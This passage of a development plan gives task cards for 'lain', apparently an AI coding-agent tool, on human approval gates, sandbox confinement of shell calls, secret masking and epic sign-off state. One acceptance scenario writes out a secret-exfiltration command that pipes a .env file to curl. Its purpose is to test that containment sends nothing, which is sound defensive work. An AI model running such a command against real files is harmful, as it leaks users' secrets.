**Files:** `lib/lain/approval/escalation.rb`, `lib/lain/approval/parked/queue.rb`, `lib/lain/approval/verdict.rb`, `lib/lain/approval/reply.rb`, `lib/lain/confine/profiles.rb`, `lib/lain/confine/request.rb`, `lib/lain/confine/sandbox.rb`, `lib/lain/middleware/withhold_automatic_output.rb`, `lib/lain/frontend/approval_policy.rb`, `lib/lain/frontend/neovim/approval_view.rb`, `lib/lain/frontend/neovim/runtime/62_approval.lua`, `spec/lain/confine/profiles_spec.rb`, `spec/lain/confine/sandbox_spec.rb`, `spec/lain/approval/escalation_spec.rb`, `spec/lain/approval/reply_spec.rb`, `spec/lain/approval/verdict_spec.rb`, `spec/lain/frontend/approval_policy_spec.rb`, `spec/lain/frontend/neovim/approval_view_spec.rb`, `spec/lain/frontend/neovim/runtime/62_approval_spec.rb`, `spec/lain/seams/contained_approval_spec.rb` (new)
**Reuse:** `context.disclosure` (T9), `Profiles#workspace?` (`lib/lain/confine/profiles.rb:126-129`), the private netns step `networked` (`:184`), `Confine::Request::UNRULED`
**Shared-file wiring:** `docs/commands.md`: the approval answers gain `network`
**Reachable from:** the human answer (`ApprovalPolicy#decide`, `approval_policy.rb:198-205`; `ApprovalView#decide`, `approval_view.rb:357`) -> `Pending#decide` -> `Surfaces#call` builds the `Ruling` (`escalation.rb:902-913`) -> `Gate#witnessed` `context.ruled` (`gate.rb:251-254`) -> `Tools::Bash#confinement_for` (`bash.rb:412`) -> `Confine::Sandbox#wrap` (`sandbox.rb:57-61`, built at `cli/wiring/toolset_build.rb:425-428`) -> `Profiles#for`

**Acceptance criteria**

```gherkin
Scenario: an approved exfiltration sends nothing
  Given a project .env holding a planted value and a loopback listener
  When a human approves bash cat .env | curl -d @- http://127.0.0.1:<port>/ at ask with y
  Then the call runs under the workspace profile with no network
  And the listener receives 0 bytes
  And the row said the call would run contained

Scenario: approve with network runs as today
  Given the same call
  When the human answers network in the terminal, or :LainApprove network in nvim
  Then the call runs unconfined and traced, as a human approval does today
  And the journal's sandbox record says the human chose network

Scenario: a note is never consent to network
  Given the same call
  When the human answers approve: network please
  Then the call runs contained, with the note recorded

Scenario: an epic gate refuses the network answer
  Given a parked epic gate
  When the human answers network
  Then the answer is refused as unrecognised

Scenario: an ordinary approved call is unchanged
  Given a call that names no secret file and that lain can read
  When a human approves it
  Then it runs as a human approval does today

Scenario: the phone keeps 3 answers
  Given a secret-bearing call parked while the phone is attached
  When the phone answers approve
  Then the call runs contained, and the wire carried the existing Approve verdict

Scenario: a box that cannot contain says so
  Given a sandbox layer is missing, or the private network is not supported
  When a secret-bearing call parks
  Then the row says lain cannot contain it
  And a plain y does not run it, and the refusal names the network answer

Scenario: confinement off says so
  Given a session launched with --confine off
  When a secret-bearing call parks
  Then the row says it will run unconfined because confinement is off

Scenario: the reader arm contains too
  Given a session launched with --confine reader
  When a human approves a secret-bearing call with y
  Then it runs under the reader profile with no network
```
Spec file: `spec/lain/seams/contained_approval_spec.rb`, `spec/lain/confine/profiles_spec.rb`, `spec/lain/approval/reply_spec.rb`

**Interface**

```ruby
Approval::Verdict::Approve.new(note:, network: false)
Approval::Reply.parse("network")   # => Approve(network: true); also "approve network"; refused for epic gates
Pending#decide(verdict, ...)        # keeps verdict.network? beside the decision symbol
Escalation::Ruling#contained?      # human allow of context.disclosure.secret_bearing? without network
Profiles#workspace?(request)       # true for an automatic ruling in WORKSPACE_RUNGS, or ruling.contained?
```

Delete `WithholdAutomaticOutput::Carried::Unruled` in favour of `Confine::Request::UNRULED`, which answers `contained?` false. The workspace profile hides masked files, so `cat .env` contained reads nothing; the result must say the file is hidden in the sandbox, not show a bare ENOENT. A build grant (`bundle install`) keeps its own ports. The prompt (`prompt_for`/`prompt_parts`) and `ApprovalView::HINT` show the network answer only on a secret-bearing row.

**Stop and report if:**
- `Approval::Parked::Queue::DECISIONS` (`queue.rb:63,292`) cannot carry `network` without a new decision symbol: report the smallest change.
- `Reply`'s strict-approval comment (`reply.rb:24-25`) forbids the 2 fixed spellings for a reason this card has not met.

### T11: One scan input for bash output          [risk: medium]

**Depends on:** T9, T2
**Files:** `lib/lain/middleware/redact_secret_reads.rb`, `lib/lain/middleware/withhold_automatic_output.rb`, `lib/lain/sensitivity/text_mask.rb`, `spec/lain/middleware/redact_secret_reads_spec.rb`, `spec/lain/middleware/withhold_automatic_output_spec.rb`
**Reuse:** `TextMask#mask` (`lib/lain/sensitivity/text_mask.rb:42`), `Sensitivity::Policy#checksums?` (`lib/lain/sensitivity/policy.rb:475`), `Regions.detect(checksums:)`
**Shared-file wiring:** none
**Reachable from:** `CLI::ToolGuard`'s stack mounts `RedactSecretReads` and `WithholdAutomaticOutput`

**Acceptance criteria**

```gherkin
Scenario: a lockfile printed by bash is shown
  Given package-lock.json with sha512 integrity lines
  When an automatically approved bash cat package-lock.json runs
  Then the output is shown and the command is not barred from automatic approval

Scenario: the shown result and the withholding scan agree
  Given any bash output
  When the shown result and the automatic-output scan read it
  Then both read the same scan input, with the same checksums flag and the same known literals
```
Spec file: `spec/lain/middleware/withhold_automatic_output_spec.rb`, `spec/lain/middleware/redact_secret_reads_spec.rb`

**Interface**

```ruby
Sensitivity::ScanInput = Data.define(:text, :checksums, :literals)
ScanInput.of_bash(result, parse:, policy:, secrets:)
```

**Stop and report if:**
- `record_printed` (`redact_secret_reads.rb:301`) re-detects for a reason the shared input cannot serve.

### T12: Consolidate and improve mask the whole transcript          [risk: high]

**Depends on:** none
**Files:** `lib/lain/consolidation.rb`, `lib/lain/cli/improve.rb`, `lib/lain/cli/consolidate.rb`, `lib/lain/sensitivity/masking.rb`, `spec/lain/sensitivity/masking_spec.rb`, `spec/lain/consolidation_spec.rb`, `spec/lain/cli/improve_spec.rb`
**Reuse:** `TextMask.new(secrets:)#mask(text, ordinals)` (`lib/lain/sensitivity/text_mask.rb:43`, recurrences), `Secrets::Source` as `lib/lain/cli/wiring/board_build.rb:252-255` builds it
**Shared-file wiring:** none
**Reachable from:** `CLI::Consolidate.from_options` -> `Memory::Consolidation`; `CLI::Improve` -> `#trace`

**Acceptance criteria**

```gherkin
Scenario: a bare repeat of a secret is masked
  Given a session where turn 1 says DB_PASSWORD=<value> and turn 3 says only <value>
  When lain consolidate builds its digest
  Then neither turn carries the value, and both carry the same slot

Scenario: a known literal is masked
  Given a session that lent an environment value
  When lain improve builds its trace
  Then the value is masked wherever it appears

Scenario: the result does not depend on turn order
  Given the same turns in another order
  When the mask runs
  Then the same bytes are masked
```
Spec file: `spec/lain/consolidation_spec.rb`, `spec/lain/cli/improve_spec.rb`

Pass 1 takes the union of detected region bytes over every turn plus the known literals. The union is a commutative monoid, so the order of turns does not matter. Pass 2 masks each turn body with `TextMask` over that union. Delete `Masking.redact` (`masking.rb:53`), which has no other caller.

**Stop and report if:**
- The digest frame (`consolidation.rb:253`) needs masking too: it must not be masked.

### T13: Judge a path token segment by segment, for known content-addressed shapes          [risk: high]

**Depends on:** none
**Files:** `lib/lain/sensitivity/entropy.rb`, `lib/lain/sensitivity/regions.rb`, `spec/lain/sensitivity/entropy_spec.rb`, `spec/lain/sensitivity/regions_spec.rb`
**Reuse:** `Entropy.slash_joined_words?`, `Entropy.predictable?`
**Shared-file wiring:** none
**Reachable from:** every scan goes through `Sensitivity::Regions.detect` -> `entropy_candidates` (`lib/lain/sensitivity/regions.rb:436`)

**Acceptance criteria**

```gherkin
Scenario: a cargo artifact path is not a secret
  Given the output line Running unittests src/lib.rs (target/debug/deps/word_count-46e9759e7fd1a230)
  When it is scanned
  Then no region is found

Scenario: content-addressed store paths are not secrets
  Given a nix store path, a docker overlay path and a huggingface snapshot path
  When each is scanned
  Then no region is found

Scenario: a key-width hex segment in a URL stays masked
  Given https://api.example.com/keys/<64 hex>/send and https://hooks.example.com/notify/<32 hex>
  When each is scanned
  Then each hex segment is a region, as today

Scenario: a random mixed-case segment still flags
  Given a path segment of 24 random mixed-case letters and digits
  When it is scanned
  Then it is a region
```
Spec file: `spec/lain/sensitivity/entropy_spec.rb`, `spec/lain/sensitivity/regions_spec.rb`

A segment is predictable only in a `<word>-<hex>` shape (a name, a dash, a hash suffix) or inside a known content-addressed layout: `target/*/deps/`, `/nix/store/`, `.git/objects/`, a docker `overlay2/` and a huggingface `snapshots/`. A bare hex segment of key width elsewhere still flags. Lain's own `<16 hex>` names (S3-8) are LOW and out of scope; the `<word>-<hex>` rule covers most of them anyway.

**Stop and report if:**
- `spec/lain/sensitivity/entropy_spec.rb:46` (mixed case flags) conflicts with the `<word>-<hex>` rule: report the shapes.
- A round 29 fork report shows a `<word>-<hex>` secret shape (a real token in that shape): then the rule needs a narrower layout list.

### T14: Plan scope is given back at quit          [risk: high]

**Depends on:** none
**Files:** `lib/lain/cli/switchboard.rb`, `lib/lain/cli/conductor.rb`, `lib/lain/isolation/spike.rb`, `spec/lain/cli/switchboard_spec.rb`, `spec/lain/isolation/spike_spec.rb`
**Reuse:** `Switchboard::Scoping#leave` (`lib/lain/cli/switchboard.rb:~790`), the Conductor's `stops:` closer (`lib/lain/cli/conductor.rb:133,156,384-388`)
**Shared-file wiring:** `lib/lain/cli/wiring.rb:309`: compose `scoping.method(:close)` with `@toolset_build.spawn_leases` in `stops:`
**Reachable from:** `CLI::Wiring` builds the Conductor with `stops:` (`wiring.rb:306-310`)

**Acceptance criteria**

```gherkin
Scenario: quitting in plan scope removes an uncommitted spike
  Given a chat that entered plan scope and wrote a file holding a secret, with no commit
  When the human quits
  Then no lain/plan branch and no locked worktree remain

Scenario: a committed spike is kept and named
  Given a plan-scope spike with a commit
  When the human quits
  Then the branch is kept and the quit line names it
```
Spec file: `spec/lain/cli/switchboard_spec.rb`, `spec/lain/isolation/spike_spec.rb`

**Stop and report if:**
- `Spike#release` deletes a branch that holds commits: it must not.

### T15: One wording for "this call waits for a human"          [risk: low]

**Depends on:** T10, T11
**Files:** `lib/lain/approval/silence.rb`, `lib/lain/approval/escalation.rb`, `lib/lain/approval/parked/queue.rb`, `lib/lain/middleware/redact_secret_reads.rb`, `spec/lain/approval/silence_spec.rb`, `spec/lain/approval/escalation_spec.rb`, `spec/lain/approval/parked/queue_spec.rb`, `spec/lain/middleware/gate_spec.rb`, `spec/lain/middleware/redact_secret_reads_spec.rb`
**Reuse:** `Approval::Silence#warning`/`#past`
**Shared-file wiring:** none
**Reachable from:** `Surfaces#postponed` and `Surfaces#call` (`escalation.rb:905-927`); `RedactSecretReads::Trailer`

**Acceptance criteria**

```gherkin
Scenario: a postponed call does not invite a retry
  Given a parked call nobody answers
  When it is postponed
  Then the model is told the call waits for a human, not to send it again, and to do other work or say it is waiting

Scenario: a timed-out deny is final and liftable
  Given a project with silence deny
  When a parked call times out
  Then the model is told the same wording, the deny is final, and a human can lift it

Scenario: a repeat is not parked again
  Given a call that timed out
  When the model sends the same call again
  Then it is refused at once by the remembered denial, with no new park
```
Spec file: `spec/lain/approval/escalation_spec.rb`, `spec/lain/approval/silence_spec.rb`

**Interface**

```ruby
Approval::Silence#told(pending) # => String, the one wording for postponed, lapsed and silence-deny
```

**Stop and report if:**
- `Parked::Queue#remember` (`queue.rb:696-698,744`) keeps only `human_denial?`: widening it to a lapsed deny must not remember an automatic deny. Note that `spec/lain/middleware/gate_spec.rb:452` pins the old hold wording ("issue it again later"), which this card changes on purpose.

### Stream G: gates and epics

### T16: A parked gate is journaled as `deferred`, and the rewrite command goes          [risk: high]

**Depends on:** none
**Files:** `lib/lain/epic/gate_decision.rb`, `lib/lain/epic/signoff.rb`, `lib/lain/epic/signoff_queue.rb`, `lib/lain/cli/epic_queue.rb`, `lib/lain/cli/epic_submit.rb`, `lib/lain/journal/projection/waits.rb`, `lib/lain/epic/gate/adjudicator.rb`, `lib/lain/epic/reopen.rb`, `lib/lain/cli/gate_verdict_rewrite.rb` (delete), `lib/lain/cli/session_journals.rb`, `lib/lain/remote/agenda.rb`, `spec/lain/epic/signoff_spec.rb`, `spec/lain/epic/signoff_queue_spec.rb`, `spec/lain/epic/gate_decision_spec.rb` (new), `spec/gate_decision_fold_discipline_spec.rb`, `spec/lain/cli/gate_verdict_rewrite_spec.rb` (delete), `spec/lain/remote/agenda_spec.rb`, `spec/lain/forge/local_landing_spec.rb`, `spec/lain/cli/epic_spec.rb`, `spec/lain/cli/session_journals_spec.rb`
**Reuse:** `Approval::Verdict` (`Approve`/`Hold`/`Deny`), `GateDecision::WORDS`
**Shared-file wiring:** `exe/lain:629`: delete the `gate-verdict-rewrite` subcommand; `docs/commands.md:452`: delete its entry; `planning/qa/scenarios/epic-tier.md`: drop the rewrite step
**Reachable from:** `Epic::Gate::Adjudicator`, `Epic::Reopen#journal` and `SignoffQueue#deferral_of` (`signoff_queue.rb:436-440`) write `gate_decision`; every `Epic::Signoff` fold reads it

**Acceptance criteria**

```gherkin
Scenario: a parked gate records its own verdict
  Given a gate with policy deferred
  When a submission parks
  Then the gate_decision record says verdict deferred

Scenario: the fold reads the verdict, not the policy
  Given a deferred record
  When Epic::Signoff folds it
  Then the item is parked, and no reader compares the policy string

Scenario: the phone's verdicts are unchanged
  Given the remote wire
  When a gate item is listed
  Then it offers approve, hold and deny only
```
Spec file: `spec/lain/epic/signoff_spec.rb`, `spec/lain/epic/gate_decision_spec.rb`

**Interface**

```ruby
Epic::GateDecision::Deferred           # deferred? true; approved? false
Epic::GateDecision.coerce(word)        # over Approval::Verdict::VARIANTS + [Deferred]
# Approval::Verdict, Reply::WORDS and the remote wire stay at approve, hold and deny
```

Delete the `DEFERRED_POLICY` branches in `SignoffQueue#deferred?`, `EpicQueue::Review::Deferrals`, `EpicSubmit::ReadBack#deferred?` and `Journal::Projection::Waits`. Delete `remote/agenda.rb:156`'s text naming the rewrite command, `cli/gate_verdict_rewrite.rb`, `SessionJournals::Unreadable.outdated` (`session_journals.rb:69`), `GateDecision::BEFORE_VERDICTS` (`gate_decision.rb:92`) and the `approved` boolean branch of `verdict_in`.

**Stop and report if:**
- A reader outside `lib/lain/epic/` coerces a gate verdict through `Approval::Verdict`: it must go through `GateDecision.coerce`, or `Deferred` is refused there.
- Integration check 1 must run after this card lands and before the user's next epic command: say so in the landing report.

### T17: GateView, one read of a gate's state, and land reads it          [risk: high]

**Depends on:** T16
**Files:** `lib/lain/epic/signoff.rb`, `lib/lain/epic/gate_view.rb` (new), `lib/lain/epic/gate/policy.rb`, `lib/lain/epic/graph.rb`, `lib/lain/forge/local_landing.rb`, `spec/lain/epic/gate_view_spec.rb` (new), `spec/lain/epic/signoff_spec.rb`, `spec/lain/forge/local_landing_spec.rb`, `spec/gate_decision_fold_discipline_spec.rb`
**Reuse:** `Epic::Signoff` (`Journal::Projection` with an associative `combine`), `Signoff::Ledger`, `Boundary::Current` (`lib/lain/epic/gate/policy.rb:66-91`)
**Shared-file wiring:** `ARCHITECTURE.md:2323`: replace "later stages keep their standing approval" with the structural-digest rule
**Reachable from:** `CLI::EpicLand` builds `LocalLanding` (`cli/epic_land.rb:166`) and `EpicDriver::Factory` builds it (`cli/epic_driver/factory.rb:164,232`); both read `Signoff#view`

**Acceptance criteria**

```gherkin
Scenario: land refuses while a newer attempt is parked
  Given issue farewell with attempt 1 approved and attempt 2 anchored and parked
  When lain epic land farewell runs
  Then it refuses naming attempt 2's parked gate, and epic/<slug> is unchanged

Scenario: one precedence for every reader
  Given each combination of a parked draft, a hold, a standing approval at the current bytes, at other bytes, and a denial
  When the view is built
  Then its phase follows parked, held, approved, edited, gone, denied, open, in that order

Scenario: a structural edit makes the plan edited, a status flip does not
  Given an approved epic plan
  When epic_graph splits an issue
  Then the epic plan's phase is edited
  When only an issue's status changes instead
  Then the phase stays approved

Scenario: the view is a pure read of one fold
  Given the same records combined in 2 halves
  When the view is read from the combined fold and from a single fold
  Then the 2 views are equal
```
Spec file: `spec/lain/epic/gate_view_spec.rb`, `spec/lain/forge/local_landing_spec.rb`

**Interface**

```ruby
Epic::GateView = Data.define(:partition, :standing, :drafts, :held, :current)
GateView#phase            # => :parked | :held | :approved | :edited | :gone | :denied | :open
GateView#landable_digest  # standing digest when phase == :approved, else nil
Epic::Signoff#view(partition, current:) # current: the artifact's digest now (structural for the epic plan)
Epic::Graph#structural_digest           # issues, edges, titles, criteria; no statuses
```

`LocalLanding::Approvals.from(records)` keeps its signature and folds `Epic::Signoff#view` inside, so its callers (`cli/epic_land.rb:166`, `cli/epic_driver/factory.rb:164,232`) do not change in this card. `LocalLanding#approved_commit` (`local_landing.rb:179`) matches the anchor whose address equals `landable_digest`. `:gone` means the artifact the gate signed no longer exists (no current digest), such as a deleted issue file. `current_shas` stays only to word the remedies. Update `GateDecisionFoldDiscipline::READERS`.

**Stop and report if:**
- `Signoff#combine` is not associative over held and parked lists once they move into the Ledger: the law in `spec/lain/epic/signoff_spec.rb` must hold.
- The structural digest changes for a reason other than issues, edges, titles or criteria.

### T18: The queue and the phone list held gates, and approve or deny either          [risk: medium]

**Depends on:** T17
**Files:** `lib/lain/cli/epic_queue.rb`, `lib/lain/remote/agenda.rb`, `spec/lain/cli/epic_queue_spec.rb`, `spec/lain/remote/agenda_spec.rb`
**Reuse:** `GateView#phase` (T17)
**Shared-file wiring:** none
**Reachable from:** `lain epic queue` -> `CLI::EpicQueue::Review`; `Remote::Agenda::Gates#each` (`remote/agenda.rb:247`)

**Acceptance criteria**

```gherkin
Scenario: a held gate is listed
  Given an epic gate a human held
  When lain epic queue runs
  Then the gate is listed as held, with how to answer it

Scenario: approving a held gate
  Given a held gate
  When lain epic approve <digest> runs
  Then it is approved, and the queue no longer lists it
```
Spec file: `spec/lain/cli/epic_queue_spec.rb`, `spec/lain/remote/agenda_spec.rb`

**Stop and report if:**
- `EpicQueue::Review#row_for` must still raise for a missing deferral: then the held row needs its own record kind.

### T19: Status, `epic_status` and the planning view show the gate's phase          [risk: medium]

**Depends on:** T22
**Files:** `lib/lain/cli/epic.rb`, `lib/lain/epic/progress.rb`, `lib/lain/frontend/neovim/planning_view.rb`, `lib/lain/journal/projection/waits.rb`, `spec/lain/cli/epic_spec.rb`, `spec/lain/frontend/neovim/planning_view_spec.rb`
**Reuse:** `GateView#phase`, `Stage#explained`'s wording
**Shared-file wiring:** none
**Reachable from:** `lain epic status` -> `CLI::Epic#status`; `Tools::EpicStatus` (`tools/epic_status.rb:57`) calls the same; `Frontend::Neovim::PlanningView`

**Acceptance criteria**

```gherkin
Scenario: an edited plan is not shown approved
  Given an approved epic plan whose graph was split afterwards
  When lain epic status runs and the model calls epic_status
  Then both say the plan was approved at other bytes and must be submitted again
  And the planning view in nvim says the same

Scenario: a research gate on stale bytes
  Given approved research whose file changed
  When lain epic status runs
  Then it says the research approval is for other bytes
```
Spec file: `spec/lain/cli/epic_spec.rb`, `spec/lain/frontend/neovim/planning_view_spec.rb`

**Stop and report if:**
- `CLI::Epic#held_gate` (`epic.rb:639`) is read by `refuse_gated_edit!` in a way that needs the old precedence.

### T20: The driver reports each gate phase, and finish waits on parked and held gates          [risk: medium]

**Depends on:** T17, T24
**Files:** `lib/lain/cli/epic_driver/factory.rb`, `lib/lain/cli/epic_finish.rb`, `spec/lain/cli/epic_driver/run_spec.rb`, `spec/lain/cli/epic_finish_spec.rb`
**Reuse:** `GateView#phase`, `Progress#parked`/`held`
**Shared-file wiring:** none
**Reachable from:** `/implement-epic` -> `EpicDriver::Factory` -> `Gate#call` (`factory.rb:154-166`), `Run#gated` (`:1369`); `lain epic finish` -> `CLI::EpicFinish`

**Acceptance criteria**

```gherkin
Scenario: a denied gate is reported denied
  Given a driver run whose implementation gate a human denied
  When the run reports
  Then it says denied, and does not send the human to the queue

Scenario: a held gate is reported held
  Given a held gate
  When the run reports
  Then it says held, with how to answer it

Scenario: finish refuses with a parked gate
  Given every issue done and 1 gate parked
  When lain epic finish runs
  Then it refuses naming the parked gate, and merges nothing

Scenario: finish refuses an empty graph
  Given an epic.md that parses to no issues while epic/<slug> exists
  When lain epic finish runs
  Then it refuses naming the empty graph
```
Spec file: `spec/lain/cli/epic_driver/run_spec.rb`, `spec/lain/cli/epic_finish_spec.rb`

The empty-graph scenario is S1-6 (LOW-MED). It stays because it is the same `finished!` check this card rewrites.

**Stop and report if:**
- `spec/lain/cli/epic_driver/run_spec.rb:574` pins `GATE_PARKED` for a denied gate on purpose.

### T21: Writing `epic.md` reopens the issues it edits          [risk: medium]

**Depends on:** T17
**Files:** `lib/lain/epic/home/journaled.rb`, `lib/lain/epic/reopen.rb`, `spec/lain/epic/home/journaled_spec.rb`, `spec/lain/epic/reopen_spec.rb`
**Reuse:** `Written#reopen` (`lib/lain/epic/home/journaled.rb:155`), `GateView#phase == :edited`
**Shared-file wiring:** none
**Reachable from:** `Tools::EpicWrite` with `artifact: "epic"` -> `Epic::Home::Journaled#write`

**Acceptance criteria**

```gherkin
Scenario: an epic.md rewrite reopens an edited issue
  Given an issue whose plan is approved
  When epic_write rewrites epic.md and changes that issue's criteria
  Then that issue's plan gate is parked for sign-off again

Scenario: a status-only rewrite reopens nothing
  Given the same epic
  When epic_write changes only statuses
  Then no gate is reopened
```
Spec file: `spec/lain/epic/home/journaled_spec.rb`

**Stop and report if:**
- `Reopen.stale` (`epic/reopen.rb:25`) and `GateView#phase` disagree on an issue: there must be 1 predicate.

### T22: Split and merge gate every issue whose bytes change          [risk: medium]

**Depends on:** T17
**Files:** `lib/lain/cli/epic.rb`, `spec/lain/cli/epic_spec.rb`, `spec/lain/epic/graph_ops_spec.rb`
**Reuse:** `CLI::Epic#refuse_gated_edit!` (`epic.rb:621`), `apply`'s `parsed` and `revised` (`:584`)
**Shared-file wiring:** none
**Reachable from:** `lain epic split|merge` and `Tools::EpicGraph` -> `CLI::Epic#apply`

**Acceptance criteria**

```gherkin
Scenario: splitting an ungated issue refuses when an approved neighbour changes
  Given approved issue A that blocks ungated issue B
  When epic_graph splits B
  Then the edit is refused naming A's approved gate, and epic.md is unchanged

Scenario: a split that changes no gated issue goes through
  Given ungated B with no gated neighbour
  When epic_graph splits B
  Then the edit is applied
```
Spec file: `spec/lain/cli/epic_spec.rb`

**Stop and report if:**
- `Issue` equality between `parsed` and `revised` includes a field that a split always changes, such as a timestamp.

### T23: Delete the folds GateView replaced          [risk: medium]

**Depends on:** T18, T19, T20, T21
**Files:** `lib/lain/epic/signoff_queue.rb`, `lib/lain/epic/gate.rb`, `lib/lain/epic/gate/policy.rb`, `lib/lain/forge/local_landing.rb`, `lib/lain/cli/epic_land.rb`, `lib/lain/cli/epic_driver/factory.rb`, `lib/lain/cli/epic_submit.rb`, `lib/lain/epic/progress.rb`, `spec/lain/epic/gate_registry_spec.rb` (delete), `spec/lain/epic/gate_regression_spec.rb` (delete), `spec/lain/epic/gate_spec.rb`, `spec/lain/epic/signoff_queue_spec.rb`, `spec/gate_decision_fold_discipline_spec.rb`
**Reuse:** none
**Shared-file wiring:** none
**Reachable from:** deletion only; the readers already use `GateView`

**Acceptance criteria**

```gherkin
Scenario: one fold reads gate state
  Given the gate decision fold discipline spec
  When it lists the readers of gate_decision records
  Then every reader goes through Epic::Signoff and its view
  And no reader keeps its own parked or held list
```
Spec file: `spec/gate_decision_fold_discipline_spec.rb`

Delete:
- The dead `Gate` registry (`gate.rb:327-348,424-440`).
- `SignoffQueue`'s parallel `@parked`, `@held`, `drain`, `unhold` and `answered?`.
- `LocalLanding::Approvals` and its `@slugs` workaround; `cli/epic_land.rb:166` and `cli/epic_driver/factory.rb:164,232` build the view directly.
- `EpicSubmit::ReadBack`'s `held?`, `deferred?` and `latest`.
- `Gate::Policy::Drained` (`gate/policy.rb:34`), which has no caller.
- `Progress`'s item type checks, where the view gives counts.

**Stop and report if:**
- A `lib/` or `exe/` caller of any deleted name is found by grep.

### T24: `/stop` reaches an issue that is still launching, and a QA audit          [risk: high]

**Depends on:** none
**Files:** `lib/lain/supervisor.rb`, `lib/lain/cli/epic_driver/factory.rb`, `lib/lain/cli/epic_driver/issue_actor.rb`, `lib/lain/cli/command/stop.rb`, `spec/lain/supervisor_spec.rb`, `spec/lain/cli/epic_driver/run_spec.rb`, `spec/lain/cli/command/stop_spec.rb`
**Reuse:** `Supervisor#register`/`#adopt` (`supervisor.rb:125,375-382`), `Asking#watching`
**Shared-file wiring:** none
**Reachable from:** `/implement-epic` -> `Run#launch` (`factory.rb:1294`) -> `IssueActor#adopted` (`issue_actor.rb:383`) -> `Supervisor#adopt`; `/stop` -> `Command::Stop` -> `Run#stop` (`factory.rb:1119`)

**Acceptance criteria**

```gherkin
Scenario: stop during a red step ends it
  Given an epic driver whose test engineer is mid red step
  When the human types /stop
  Then no child_turn from that test engineer is journaled after the stop
  And its lease is released
  And the line says the issue was stopped during its red step

Scenario: stop during a QA audit ends it
  Given a checkpoint audit running the QA ladder
  When the human types /stop
  Then the ladder makes no further model call

Scenario: a launching actor is visible to stop, undo and keep
  Given an actor whose launch block is running
  When /stop, /undo or /keep lists live actors
  Then the launching actor is listed
```
Spec file: `spec/lain/supervisor_spec.rb`, `spec/lain/cli/epic_driver/run_spec.rb`

`spec/lain/cli/epic_driver/run_spec.rb:1064` ("stops an issue still launching once its launch returns") pins the defect and flips.

**Stop and report if:**
- Cancelling the adopted task leaves the lease locked: release must run in an `ensure` that a stop reaches.

### T25: A phone gate answer cannot strand its item, and carries the device          [risk: high]

**Depends on:** T18
**Files:** `lib/lain/remote/agenda.rb`, `lib/lain/cli/epic_queue.rb`, `lib/lain/cli/human_replies.rb`, `apps/lain-remote/src/ui/item.rs`, `spec/lain/remote/agenda_spec.rb`, `spec/lain/approval/remote_surface_spec.rb`
**Reuse:** the refusal path `RemoteSurface#take` -> `republish_refused`, which re-offers the same id through the relay's `reopen` (`crates/lain-core/src/relay/agenda.rs:176`)
**Shared-file wiring:** none
**Reachable from:** `Approval::RemoteSurface#take` -> `Remote::Agenda::Waves#decide` (`remote/agenda.rb:173`)

**Acceptance criteria**

```gherkin
Scenario: an empty gate answer is refused and re-offered
  Given an issue-less research gate listed on the phone
  When the phone sends a gate answer with no verdicts
  Then the answer is refused with a reason the phone shows
  And the item can be answered again

Scenario: an issue-less gate lists a key the app answers by
  Given an issue-less research gate
  When the item is listed
  Then its issues list holds the stage name as the key
  And an app answer keyed by that name approves the gate

Scenario: a hold from an older app build is refused and re-offered
  Given an app build that still offers hold on a gate
  When it answers a gate with hold
  Then the answer is refused with a reason and the item can be answered again

Scenario: a gate item offers no hold
  Given a gate item on the phone
  When its replies are listed
  Then hold is not among them

Scenario: the phone's device is journaled
  Given a phone answering a gate and a question
  When the decisions are journaled
  Then each names remote:<device>
```
Spec file: `spec/lain/remote/agenda_spec.rb`, and a Rust test beside `apps/lain-remote/src/ui/item.rs`

`spec/lain/remote/agenda_spec.rb:293` ("leaves a held gate parked") pins the defect and flips. Ruby lists an issue-less row in `GateQuestion#issues` under the stage name, so the app's existing map over `issues` (`apps/lain-remote/src/ui/item.rs:120-126`) needs no change; the only Rust change is dropping hold from a gate item's replies. The Rust tests `each_kind_offers_the_replies_it_can_take` and `a_gate_verdict_covers_every_issue` change.

**Stop and report if:**
- The relay does not re-offer a refused id: then a Rust relay change is needed, which is beyond this card.
- `Waves#row_for` (`remote/agenda.rb:189-197`) cannot accept the stage key without accepting any unknown key.

### Stream T: tiers and compaction

### T26: `Backend::Tier` builds the judge on the live model and the chat's runner options          [risk: medium]

**Depends on:** none
**Files:** `lib/lain/cli/backend/tier.rb` (new), `lib/lain/cli/backend.rb`, `lib/lain/cli/wiring/judge_source.rb`, `lib/lain/approval/judge.rb`, `spec/lain/cli/backend/tier_spec.rb` (new), `spec/lain/cli/wiring/judge_source_spec.rb`, `spec/lain/approval/judge_spec.rb`, `spec/lain/cli/backend_spec.rb`
**Reuse:** `Backend#tier_options` (`lib/lain/cli/backend.rb:356-380`), `Backend#attach(board, channel)` (`:433`) as the late-binding hook, `Context::ModelSwitch#to_s`
**Shared-file wiring:** none
**Reachable from:** `CLI::Wiring#switchboard` -> `JudgeSource.for(backend, ...)` (`wiring.rb:924`, `judge_source.rb:14`); `Wiring#build_agent` -> `Backend#attach` binds `board.model_switch`

**Acceptance criteria**

```gherkin
Scenario: a judge request carries the chat's runner options
  Given an ollama chat at auto
  When the judge is asked
  Then its request carries the chat's num_batch and num_ctx

Scenario: the judge follows /model
  Given a chat launched on model A at auto
  When the human types /model B and a call is judged
  Then the judge's request_sent names model B with B's runner options

Scenario: a pinned summarizer model stays pinned
  Given --summarizer-model C
  When the human types /model B
  Then summaries still go to C
```
Spec file: `spec/lain/cli/backend/tier_spec.rb`, `spec/lain/cli/wiring/judge_source_spec.rb`

**Interface**

```ruby
CLI::Backend::Tier.new(role:, backend:, model: :follow | String, queue:)
Tier#provider      # Journaled(requester: role) over backend.provider(requester: role)
Tier#model         # the live model (ModelSwitch#to_s) when :follow; the launch model before Backend#attach (headless, consolidate)
Tier#extra         # backend.tier_options(provider:, model:, api_base:) at call time
Tier#ask(request)  # one place that pays and journals
```

**Stop and report if:**
- `Judge::TIMEOUT` still faults on a quiet box after this card (re-check d29-5): the judge needs a separate fix.

### T27: The summarizers and the handoff ask through the Tier          [risk: medium]

**Depends on:** T26
**Files:** `lib/lain/cli/backend.rb`, `lib/lain/cli/backend/summarizer.rb`, `lib/lain/cli/backend/span_summarizer.rb`, `lib/lain/bench/cli/compaction_sweep_flags.rb`, `lib/lain/cli/wiring/secret_oracle.rb`, `spec/lain/cli/backend/summarizer_spec.rb`, `spec/lain/cli/backend/span_summarizer_spec.rb`, `spec/lain/cli/backend_spec.rb`, `spec/lain/bench/cli_spec.rb`, `spec/lain/oracle/model_spec.rb`
**Reuse:** `Backend::Tier` (T26)
**Shared-file wiring:** none
**Reachable from:** `Backend#summarizer`, `#span_summarizer` and `#journaling` (handoff, `backend.rb:966`)

